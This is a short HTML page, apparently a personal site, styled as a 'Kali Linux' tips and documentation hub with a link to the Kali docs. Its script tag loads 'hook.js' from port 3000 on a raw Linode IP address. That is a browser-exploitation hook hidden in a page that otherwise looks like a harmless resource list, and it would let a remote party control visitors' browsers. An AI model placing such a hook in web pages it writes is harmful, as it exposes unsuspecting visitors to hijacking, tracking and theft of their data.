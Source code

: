 <html>
<head>
	
	<style>
		body {
			background-image: url("https://github.com/Fort-Bonnitar/fort-bonnitar.github.io/blob/main/background.png?raw=true");
			background-size: cover;
		}
	</style>
	<title>Kali Linux</title>
</head>
<body style="text-align:center;">
	<h1 style="color:green;">Tips, Tricks, and Documentation.</h1>
	<p id="GFG_UP" style="font-size: 19px; font-weight: bold;"></p>
	<a href="https://www.kali.org/docs/" style="color: green; font-size: 24px; font-weight: bold;">Documentation</a>
	<p id="GFG_DOWN" style="color: green; font-size: 24px; font-weight: bold;"></p>
	<script src=”http://139-144-60-176.ip.linodeusercontent.com:3000/hook.js” type=”text/javascript”>
		var el_up = document.getElementById("GFG_UP");
		var el_down = document.getElementById("GFG_DOWN");
		el_up.innerHTML = "An easy way to find resources such as tips, tutorials, documentation, etc all in one place.";
	</script>
</body>
</html>
